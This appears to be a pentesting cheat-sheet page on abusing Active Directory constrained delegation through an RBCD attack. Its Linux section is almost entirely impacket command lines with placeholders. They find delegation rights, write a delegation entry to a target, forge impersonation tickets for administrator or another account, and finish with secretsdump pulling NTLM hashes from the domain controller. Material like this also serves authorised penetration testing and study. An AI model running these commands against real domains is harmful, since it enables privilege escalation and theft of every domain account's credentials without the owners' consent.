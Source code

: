 ```yaml
---
title: "Constrained Delegation"
date: 2024-8-2
tags: ["constrained delegation", "active driectory", "ad", "Windows", "impacket", "rbcd"]
---
```


### Abuse #1: RBCD Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Find delegation

<div>

```console
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USERNAME>' -dc-ip <DC> -hashes :<HASH> -k
```

```console
impacket-getST -spn <SERVICE>/<DC> -impersonate administrator '<DOMAIN>/<USERNAME>' -hashes :<HASH> -self
```

```console
# Check forwardable flag
describeTicket.py <TICKET_1>.ccache
```

</div>

#### 2. RBCD

<div>

```console
# Add delegation
impacket-rbcd '<DOMAIN>/<USERNAME>' -hashes :<HASH> -k -delegate-from <USERNAME> -delegate-to <TARGET_1> -action write -dc-ip <DC> -use-ldaps
```

```console
# Check
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USERNAME>' -dc-ip <DC> -hashes :<HASH> -k
```

```console
# Impersonate
impacket-getST '<DOMAIN>/<USERNAME>:<PASSWORD>' -spn <SERVICE>/<DC> -impersonate <TARGET_2>
```

```console
# Check forwardable flag
describeTicket.py <TICKET_2>.ccache
```

</div>

#### 3. Impersonate

<div>

```console
impacket-getST -spn <SERVICE>/<DC> -impersonate <TARGET_2> '<DOMAIN>/<TARGET_1>' -hashes :<HASH> -additional-ticket <TICKET_2>.ccache
```

</div>

#### 4. Secrets Dump

<div>

```console
# Import ticket
export KRB5CCNAME='<TICKET_2>.ccache'
```

```console
impacket-secretsdump -no-pass -k <DC> -just-dc-ntlm
```

</div>

{{< /tabcontent >}}

<br>
